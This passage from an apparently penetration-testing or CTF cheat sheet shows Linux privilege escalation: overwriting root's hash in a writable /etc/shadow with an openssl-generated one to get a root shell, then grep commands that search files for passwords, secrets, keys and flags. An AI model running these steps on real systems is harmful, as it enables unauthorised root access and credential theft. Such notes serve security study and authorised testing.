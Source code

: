 After that, we can get a shell as root using the following command.

```bash
su root
```

### /etc/shadow

If we have write permission of **`/etc/shadow`** by some means, we can modify the password for each user.  
First of all, create a new password using **`openssl`**.

```bash

# -6: sha512 algorithm
# password: this is the root password
openssl passwd -6 salt=salt password

# output
$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.
```

After generating the hash, update the root password hash to this hash (**`$6$salt$I…`**) in **`/etc/shadow`**.

```bash
root:$6$salt$IxDD3jeSOb5eB1CX5LBsqZFVkJdido3OUILO5Ifz5iwMuTS4XMS130MTSuDDl3aCI6WouIL9AjRbLCelDCy.g.:19532:0:99999:7:::
```

Now we can get a shell as root with the password "password".

```bash
su root
# password: password
```

<br />

## Sensitive Contents in Files

```sh
# -r: recursive
# -n: line number
# -i: ignore case
grep -rni root ./
grep -rni password ./
grep -rni passwd ./
grep -rni db_password ./
grep -rni db_passwd ./

# Find user's information
grep -rni root ./
grep -rni john ./

# -e: OR Searching
grep -re admin -re root -re credential -re password ./
grep -re secret -re key ./

# -v: Exclude
grep -rni password -v node_modules ./

# -E: regex
grep -riE 'flag{.*}' ./

# IP Address Searching
grep -rE -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" ./

```